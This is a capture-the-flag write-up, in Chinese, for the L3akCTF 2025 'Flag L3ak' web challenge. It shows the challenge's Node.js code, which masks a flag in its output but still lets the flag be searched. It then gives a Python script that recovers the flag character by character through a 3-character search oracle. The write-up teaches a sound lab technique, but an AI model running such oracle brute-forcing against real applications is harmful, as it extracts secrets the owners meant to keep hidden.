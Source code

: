 # L3akCTF - 2025
###### Contributed by @CXPhoenix

## Flag L3ak - Web

> [!NOTE]
> Value: 50
>
> Author p._.k
>
> Attachments: [flag_l3ak.zip](https://drive.google.com/uc?export=download&id=1fc36MFcJhjfVmeUkujgBnIfV1n0YbuRj)

### Description
What's the name of this CTF? Yk what to do 😉

### Solution

此題目很有趣，提供了原始碼，然後你就會看到他的 flag 放在 `id=3` 的 posts 陣列中。

```js
const posts = [
    {
        id: 1,
        title: "Welcome to our blog!",
        content: "This is our first post. Welcome everyone!",
        author: "admin",
        date: "2025-01-15"
    },
    {
        id: 2,
        title: "Tech Tips",
        content: "Here are some useful technology tips for beginners. Always keep your software updated!",
        author: "Some guy out there",
        date: "2025-01-20"
    },
    {
        id: 3,
        title: "Not the flag?",
        content: `Well luckily the content of the flag is hidden so here it is: ${FLAG}`,
        author: "admin",
        date: "2025-05-13"
    },
    {
        id: 4,
        title: "Real flag fr",
        content: `Forget that other flag. Here is a flag: L3AK{Bad_bl0g?}`,
        author: "L3ak Member",
        date: "2025-06-13"
    },
    {
        id: 5,
        title: "Did you know?",
        content: "This blog post site is pretty dope, right?",
        author: "???",
        date: "2025-06-20"
    },
];
```

原本想說：恩，真佛心來著 ❤️，但往下一看...

```js
app.get('/api/posts', (_, res) => {
    const publicPosts = posts.map(post => ({
        id: post.id,
        title: post.title,
        content: post.content.replace(FLAG, '*'.repeat(FLAG.length)),
        author: post.author,
        date: post.date
    }));
    
    res.json({
        posts: publicPosts,
        total: publicPosts.length
    });
});
```

果然這世界不是憨人想的這麼簡單... ｡ﾟヽ(ﾟ´Д`)ﾉﾟ｡

他的 FLAG 會先進行取代，最後才輸出。

不過，也沒有灰心，因為往上一 🐈 ，就看到了 search 功能：

```js
app.post('/api/search', (req, res) => {
    const { query } = req.body;
    
    if (!query || typeof query !== 'string' || query.length !== 3) {
        return res.status(400).json({ 
            error: 'Query must be 3 characters.',
        });
    }

    const matchingPosts = posts
        .filter(post => 
            post.title.includes(query) ||
            post.content.includes(query) ||
            post.author.includes(query)
        )
        .map(post => ({
            ...post,
            content: post.content.replace(FLAG, '*'.repeat(FLAG.length))
    }));

    res.json({
        results: matchingPosts,
        count: matchingPosts.length,
        query: query
    });
});
```

這段很有趣，因為他並沒有擋住搜尋 FLAG ，而是只是擋輸出結果，

這樣擋不住「近似法」的攻擊。

因此判定為妥妥的 Blind 攻擊。但這因為不是 SQL，所以就叫他 `Substring-based Oracle` 吧 ξ( ✿＞◡❛)▄︻▇▇〓▄︻┻┳═一

因此寫了這段 Code：

```python
import requests
import string
from tqdm import tqdm
from colorist import Color, Effect

TARGET = "http://34.134.162.213:17000/api/search"
FLAG_LEN = 24

flag = "L3AK{"

pointer = len(flag)-2
char_list = string.printable
while True:
    q = flag[pointer:] # lenght 理論上只有 2
    print(f"[*] Now we test with {Effect.UNDERLINE}{q}{Effect.UNDERLINE_OFF}*...")
    for char in tqdm(char_list):
        resp = requests.post(TARGET, json={"query": q+char})
        data = resp.json()
        targ = [d for d in data.get('results', []) if d.get('id') == 3]
        if targ:
            print(f"{Color.GREEN}[+] find flag char '{Effect.BOLD}{char}{Effect.BOLD_OFF}' !{Color.OFF}")
            flag += char
            print(f"[*] flag is {flag}")
            pointer += 1
            break
    else:
        print(f"{Color.RED}[-] Can't find from {Effect.UNDERLINE}{char_list}{Effect.UNDERLINE_OFF}...{Color.OFF}")
        print(f"{Color.RED}[*] Stopping...{Color.OFF}")
        break
    if char == "}":
        print(f"{Color.GREEN}[+] Found full flag!{Color.OFF}")
        break
print()
print(f"[*] result is {Effect.UNDERLINE}{flag}{Effect.UNDERLINE_OFF}")
```

---

## Referenece

* [Blind SQL Injection](https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/#blind-injection)